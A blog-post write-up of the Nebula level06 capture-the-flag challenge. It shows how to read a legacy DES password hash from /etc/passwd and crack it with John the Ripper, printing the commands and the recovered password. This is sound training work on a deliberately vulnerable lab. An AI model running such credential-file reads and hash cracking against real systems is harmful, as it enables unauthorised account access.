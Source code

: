 ```yaml
---
layout: post
title: "The legacy of unix system"
category: CTF, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 06](http://exploit-exercises.com/nebula/level06) Agenda**: "The flag06 account credentials came from a legacy unix system."

<center>
	<img src="/images/2015-03-27-the_legacy_of_unix_system/e4bf52bf.jpg">
</center>

<br />

If we'll digging in flag06 home, we'll find nothing interesting. However, if we try to [grab](http://unixhelp.ed.ac.uk/CGI/man-cgi?grep) users data from "[*/etc/passwd*](http://man7.org/linux/man-pages/man5/passwd.5.html)" (a text file that describes user login accounts for the system) it turns out that flag06 encrypted password is not stored in "*/etc/shadow*" (which instead of passwd is readable by [superuser](https://en.wikipedia.org/wiki/Superuser) only):

{% highlight sh linenos %}
level06@nebula:/home/flag06$ cat /etc/passwd | grep "flag06"
flag06:ueqwOCnSGdsuM:993:993::/home/flag06:/bin/sh
{% endhighlight %}

To crack that password hash, let's try to use old school pop-tool - "*[JTR](http://en.wikipedia.org/wiki/John_the_Ripper)*". But firstly need to install it as nebula account (pw the same). 

{% highlight sh linenos %}
level06@nebula:/home/flag06$ su nebula
Password: 
nebula@nebula:/home/flag06$ sudo apt-get install john
[sudo] password for nebula: 
Reading package lists... Done
.................................................
Setting up john (1.7.8-1) ...
nebula@nebula:/home/flag06$ exit
exit

level06@nebula:/home/flag06$ john /etc/passwd
Created directory: /home/level06/.john
Loaded 1 password hash (Traditional DES [128/128 BS SSE2])
hello            (flag06)
guesses: 1  time: 0:00:00:00 100% (2)  c/s: 25100  trying: 12345 - biteme
Use the "--show" option to display all of the cracked passwords reliably
{% endhighlight %}

Success! At line 14 of the above codeblock, we can see that the flag06 account's password is - "*hello*" phrase.